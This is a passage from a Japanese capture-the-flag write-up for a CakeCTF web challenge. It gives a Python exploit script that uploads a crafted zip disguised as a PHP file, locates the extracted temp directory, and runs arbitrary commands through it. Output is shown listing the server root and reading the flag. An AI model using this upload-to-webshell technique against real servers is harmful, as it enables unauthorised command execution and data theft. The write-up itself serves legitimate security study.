 ```python title="exploit.py"
import httpx
import re
import sys

URL = "http://web.cakectf.com:8004/"

if __name__ == "__main__":
    cmd = sys.argv[1]

    files = [
        ("zipfile[]", (".b.zip.php", open("b.zip", "rb"))),
        ("zipfile[]", ("a"*1000 + ".zip", open("b.zip", "rb"))),
    ]

    res = httpx.post(
        URL,
        files=files,
    )
    assert res.status_code == 200

    dname = re.sub(r'^.*\s([0-9a-f]+)/a{1000}.*$', r'\1', res.text, flags=re.DOTALL)

    res = httpx.post(
        f"{URL}/temp/{dname}/.b.zip.php",
        params={
            "cmd": cmd,
        }
    )
    assert res.status_code == 200
    print(res.content)
```

あとはこのスクリプトで好きなコマンドが叩けます。

```sh
$ python exploit.py "ls -la /"
b'PK\x03\x04\n\x00\x00\x00\x00\x00\xd6\xbe\x1eS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x1c\x00xUT\t\x00\x034\xf1,a9\xf1,aux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\n\x00\x00\x00\x00\x00\xd6\xbe\x1eS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x18\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb4\x81\x00\x00\x00\x00xUT\x05\x00\x034\xf1,aux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00G\x00\x00\x00;\x00\x00\x00\x00\x00total 84\ndrwxr-xr-x   1 root root 4096 Aug 30 04:59 .\ndrwxr-xr-x   1 root root 4096 Aug 30 04:59 ..\n-rwxr-xr-x   1 root root    0 Aug 30 04:59 .dockerenv\ndrwxr-xr-x   1 root root 4096 Aug 18 12:33 bin\ndrwxr-xr-x   2 root root 4096 Apr 10 20:15 boot\ndrwxr-xr-x   5 root root  340 Aug 30 04:59 dev\ndrwxr-xr-x   1 root root 4096 Aug 30 04:59 etc\n-r--r--r--   1 root root   56 Aug 30 04:58 flag-5e3981bf788023be6eef57b0ec5512f5.txt\ndrwxr-xr-x   2 root root 4096 Apr 10 20:15 home\ndrwxr-xr-x   1 root root 4096 Aug 18 12:27 lib\ndrwxr-xr-x   2 root root 4096 Aug 16 00:00 lib64\ndrwxr-xr-x   2 root root 4096 Aug 16 00:00 media\ndrwxr-xr-x   2 root root 4096 Aug 16 00:00 mnt\ndrwxr-xr-x   2 root root 4096 Aug 16 00:00 opt\ndr-xr-xr-x 287 root root    0 Aug 30 04:59 proc\ndrwx------   1 root root 4096 Aug 26 21:51 root\ndrwxr-xr-x   1 root root 4096 Aug 18 12:33 run\ndrwxr-xr-x   1 root root 4096 Aug 18 12:33 sbin\ndrwxr-xr-x   2 root root 4096 Aug 16 00:00 srv\ndr-xr-xr-x  13 root root    0 Aug 30 04:59 sys\ndrwxrwxrwt   1 root root 4096 Aug 30 14:57 tmp\ndrwxr-xr-x   1 root root 4096 Aug 16 00:00 usr\ndrwxr-xr-x   1 root root 4096 Aug 18 12:27 var\n'

$ python exploit.py "cat /flag-5e3981bf788023be6eef57b0ec5512f5.txt"
b'PK\x03\x04\n\x00\x00\x00\x00\x00\xd6\xbe\x1eS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x1c\x00xUT\t\x00\x034\xf1,a9\xf1,aux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\n\x00\x00\x00\x00\x00\xd6\xbe\x1eS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x18\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb4\x81\x00\x00\x00\x00xUT\x05\x00\x034\xf1,aux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x05\x06\x00\x00\x00\x00\x01\x00\x01\x00G\x00\x00\x00;\x00\x00\x00\x00\x00CakeCTF{uNd3r5t4nd1Ng_4Nd_3xpl01t1Ng_f1l35y5t3m_cf1944}\n'
```


[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。
[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md